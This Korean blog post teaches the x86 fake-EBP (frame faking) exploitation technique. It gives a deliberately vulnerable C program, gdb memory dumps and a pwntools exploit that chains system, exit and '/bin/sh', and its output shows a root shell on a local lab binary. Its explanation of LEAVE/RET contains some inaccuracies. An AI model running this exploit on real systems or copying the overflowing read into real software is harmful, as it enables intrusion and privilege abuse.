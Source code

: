 ```yaml
---
layout: post
title: "x86 Frame Faking"
categories: Exploit Stack
---
```


가짜 스택 프레임 포인터(Stack Frame Pointer)를 만들어 프로그램의 실행 흐름을 변경한다.(Fake EBP)  
Return Address 영역 까지만 덮어쓸 수 있을 경우 사용한다.  

#### **LEAVE**
1. EBP 레지스터에 저장된 값을 ESP에 저장
1. ESP 레지스터가 가리키는 Stack 영역에 값을 EBP 레지스터에 저장

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; LEAVE
mov esp,ebp
pop ebp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o ff ff.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 70);
}
  
void main(){
    vuln();
}
```

"A"66+"B"4 입력 시 vuln() 함수의 Stack Frame과 Return address가 변조된다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx 0xbfc64e3a(&buf)
0xbfc64e3a:	0x41414141 <- dummy 0x42424242 <- &system 0x43434343 <- &exit 0x44444444 <- &/bin/sh

gdb-peda$ x/24 $ebp
0xbfc64e78:	0x46464646 <- &buf	0x47474747 <- leave	0xb7f243dc	0xbfc64ea0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
import sys

p=process("./ff")
buf = int(p.recvline().split(' ')[3],16)
printf = int(p.recvline().split(' ')[3],16)

print('Laek buf    : ' + str(hex(buf)))
print('Laek printf : ' + str(hex(printf)))

libBase = printf - 0x4a670
system = libBase + 0x3bda0
exit = libBase + 0x2f9d0
binsh = libBase + 0x15ca0b
leave = 0x08048571

print('libBase : ' + str(hex(libBase)))
print('system  : ' + str(hex(system)))
print('exit    : ' + str(hex(exit)))
print('/bin/sh : ' + str(hex(binsh)))

exploit = "AAAA" + p32(system) + p32(exit) + p32(binsh) + "A"*46 + p32(buf) + p32(leave)
p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fakeebp# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fakeebp': pid 2319
Laek buf    : 0xbfd77fea
Laek printf : 0xb7e02670

libBase : 0xb7db8000
system  : 0xb7df3da0
exit    : 0xb7de79d0
/bin/sh : 0xb7f14a0b
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/pages/viewpage.action?pageId=12189944](https://www.lazenca.net/pages/viewpage.action?pageId=12189944)

